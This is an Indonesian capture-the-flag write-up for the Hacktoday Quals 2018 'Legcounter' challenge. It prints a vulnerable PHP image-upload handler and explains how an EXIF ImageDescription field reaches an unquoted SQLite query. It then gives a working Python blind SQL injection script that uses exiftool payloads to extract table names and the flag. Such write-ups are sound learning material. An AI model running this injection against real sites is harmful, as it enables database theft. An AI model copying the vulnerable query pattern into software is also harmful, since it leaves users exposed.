 
---
private: 'false'
layout: post
featured: false
published: true
comments: true
modified: 2018-08-05
date: 2018-08-05
title: "Hacktoday Quals 2018: Legcounter"
tags: [hacktoday]
category: CTF
mathjax: false
imagefeature: 
description: "Hacktoday Quals 2018: Legcounter"
chart: null
---


### Soal
---

http://103.56.207.107:50001


```php

<?php
include ('init.php');

session_start();
$upload_dir = "uploads/";
$upload_check = 1;
$imageFileType = strtolower(pathinfo($_FILES["legpic"]["name"], PATHINFO_EXTENSION));
$file_ = $upload_dir . md5(random_bytes(32)) . '.' . $imageFileType;

if (isset($_POST["submit"]) && isset($_POST['token'])) {
	$check = getimagesize($_FILES["legpic"]["tmp_name"]);
	if ($check !== false) {
		$upload_check = 1;
	}
	else {
		$upload_check = 0;
	}

	$t = $_POST['token'];
	if ($t != $_SESSION['csrf_token']) {
		die("Token tidak valid!");
	}

	$_SESSION['csrf_token'] = base64_encode(openssl_random_pseudo_bytes(32));
    
    if ($imageFileType != "jpg" && $imageFileType != "png" && $imageFileType != "jpeg" && $imageFileType != "gif") {
		$upload_check = 0;
	}

	if ($upload_check == 0 || !move_uploaded_file($_FILES["legpic"]["tmp_name"], $file_)) {
		die("gagal upload :(");
	}

	$exif = exif_read_data($file_);
	parse_str($exif['ImageDescription'], $exif);
	if(!$exif) die("Gambar tidak valid!");
	$leg = SQLite3::escapeString($exif['leg']);
    
    $db->exec("DELETE FROM Legs Where Session='{$_SESSION['session_token']}';");
	query("INSERT INTO Legs (Session, Leg) VALUES ('{$_SESSION['session_token']}', {$leg})");
	unlink($file_);
    
    $dir = "results/";
	$fname = $dir . sha1(openssl_random_pseudo_bytes(32)) . '.php';
	$f = fopen($fname, "w");
    
    $result = $db->query("SELECT Leg FROM Legs Where Session='{$_SESSION['session_token']}' Limit 1");
	if (count($result) == 1) {
		foreach($result as $res) {
			if ($res['Leg'] == '1') {
				fwrite($f, 'Satu kaki');
			}
			else
			if ($res['Leg'] == '2') {
				fwrite($f, 'Dua kaki');
			}
			else {
				fwrite($f, 'Tidak diketahui');
			}
		}
	}

	fwrite($f, "<?php unlink(__FILE__); ?>");
	fclose($f);
	header("Location: /{$fname}");
	$db = NULL;
}

die();
?>

```

### Writeup
---
Diberikan website yang mempunya fitur untuk upload gambar dan membaca data melalui value dari exif ImageDescription, Jadi gambar yang kita upload akan di proses datanya ketika memiliki value pada "ImageDescription" dan value yang ada di dalamnya akan di passing ke fungsi `parse_str`.


```php

	parse_str($exif['ImageDescription'], $exif);
	if(!$exif) die("Gambar tidak valid!");

```

untuk menambahkan ImageDescription pada gambar kita bisa menggunakan exiftool `exiftool -ImageDescription="leg=1" gambar.jpg` sehingga ketika di upload akan mengembalikan response `Satu kaki`


```php

query("INSERT INTO Legs (Session, Leg) VALUES ('{$_SESSION['session_token']}', {$leg})");

```

pada kode di atas terlihat bahwa input yang kita masukkan dilempar kedalam query, sehingga kita dapat melakukan injeksi, namun terlihat ada filter yang di gunakan untuk mengescape inputan kita menggunakan `$leg = SQLite3::escapeString($exif['leg']);` namun karena input kita tidak di wrap dengan quote di bagian query nya seperti `'{$leg}'` jadi kita dapat melakukan injeksi tanpa menggunakan quote atau double, kemudian kita bisa mengkonstruksikan payload untuk melakukan blind sqlite injection.


```python

import requests
import re
from StringIO import StringIO
from pycurl import *
import os
import pickle

url = "http://103.56.207.107:50001/upload.php"

headers = {
"Cache-Control": "max-age=0", 
"Origin": "http://103.56.207.107:50001", 
"Upgrade-Insecure-Requests": "1", 
"Content-Type": "multipart/form-data", 
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.75 Safari/537.36",
"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8", 
"Referer": "http://103.56.207.107:50001/", 
"Accept-Language": "en-US,en;q=0.9,de;q=0.8,es;q=0.7,id;q=0.6,ms;q=0.5", 
"Connection": "close",
"Cookie": "PHPSESSID=5d42tgrbtj0lifr04f02k3r1e6"
}


def check(data):
	return re.search("Satu kaki", data)

def getToken():
    req = requests.session()
    greptoken = req.get("http://103.56.207.107:50001/", headers=headers)
    token = str(re.search(r"type=\"hidden\" value=\"(.*)\"", greptoken.text).group(1).split("\"")[0]).strip()
    return token

def upload(token):
    c = Curl()
    d = StringIO()
    h = StringIO()
    c.setopt(URL, url)
    c.setopt(POST, 1)
    c.setopt(HTTPPOST, [('legpic', (FORM_FILE, '1leg.jpg')), ('submit', 'Deteksi'), ('token', str(token))])
    c.setopt(COOKIEFILE, 'cookie.txt')
    c.setopt(COOKIEJAR, 'cookie.txt')
    c.setopt(FOLLOWLOCATION, 1)
    c.setopt(WRITEFUNCTION, d.write)
    c.setopt(HEADERFUNCTION, h.write)
    c.perform()
    c.close()
    return d.getvalue()

def blind(kolom,table):
    passwd = ""
    idx = 1

    while (True):
        lo = 1
        hi = 255
        temp = -1
        while(lo <= hi):
            mid = (lo + hi) / 2
            # command = "exiftool -ImageDescription=\"leg=(SELECT CASE when hex(substr({},{},1)) <= hex(char({})) THEN 1 ELSE 2 END FROM {})\" 1leg.jpg".format(str(kolom),str(idx),str(mid),str(table))
            command = "exiftool -ImageDescription=\"leg=(SELECT CASE when hex(substr({},{},1)) <= hex(char({})) THEN 1 ELSE 2 END FROM {}))--+-\" 1leg.jpg".format(str(kolom),str(idx),str(mid),str(table))
            os.system(command)
            res = upload(getToken())

            if check(res):
               hi = mid-1
               temp = mid
            else:
               lo = mid+1
               
        if (hi == 0): break
        passwd += chr(temp)
        print "Result [{}]: {}".format(table,passwd)
        idx += 1

    return passwd
   



# blind("sql","sqlite_master")
# CREATE TABLE Legs (Id INTEGER PRIMARY KEY, Session TEXT UNIQUE, Leg INTEGER)

# blind("name","sqlite_master where name!=char(76,101,103,115) and sql like(char(37,102,108,97,103,37))")
# mysecretflaag

# blind("sql","sqlite_master where name=char(109,121,115,101,99,114,101,116,102,108,97,97,103)")
# CREATE TABLE mysecretflaag (Id INTEGER PRIMARY KEY, thi

blind("this_is_real_flag","mysecretflaag")
#HackToday{blind_sqlite3_injection_via_exif_

```

![Error](../images/legcounter.PNG)
